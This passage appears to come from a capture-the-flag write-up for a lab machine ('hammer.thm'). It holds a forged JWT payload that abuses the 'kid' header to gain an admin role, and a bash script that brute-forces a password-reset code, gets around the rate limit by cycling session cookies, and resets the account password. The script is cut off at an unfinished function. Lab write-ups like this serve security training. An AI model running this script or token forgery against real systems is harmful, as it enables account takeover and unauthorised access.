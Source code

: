 If you are having problems here make sure you clear the default text in that field before pasting the key. It doesn't happen automatically. 

```json
"kid": "/var/www/html/188,
"role": "admin"
```

### Full code:
```sh
#!/usr/bin/env bash

ip='10.10.195.125'
url="http://$ip:1337"

reset="$url/reset_password.php"
log_out="$url/log_out.php"
x="$url/execute_command.php"

email='tester@hammer.thm'
pass='test'

function get_session()
{
        curl -sL $log_out --cookie-jar cookie.txt -O
        curl -sL $reset --cookie-jar cookie.txt -O
        curl -sL $reset -d "email=$email" --cookie-jar cookie.txt -O
}

function attempt_pin()
{
        pin=$1
        response=$(curl -sL $reset -d "recovery_code=$pin" --cookie cookie.txt --cookie-jar cookie.txt)
        if [[ $response == *"Invalid"* ]]; then
                echo "Invalid code: $pin"
        elif [[ $response == *"Time"* ]]; then
                echo "Time expired"
		get_session
		continue
        elif [[ $response == *"Rate"* ]]; then
                echo "Rate limit hit: $pin"
                echo "trying new cookies..."
                get_session
                echo "Retrying pin..."
                attempt_pin $pin
        else
                echo "SUCCESS:" $pin
                response=$(curl -sL $reset -d "new_password=$pass" -d "confirm_password=$pass" --cookie cookie.txt --cookie-jar cookie.txt)
                echo $response > result.html
                exit
        fi
}

function attack()
{
    while IFS="" read -r pin
    do
        attempt_pin $pin
    done < pins.txt
}

function login()
```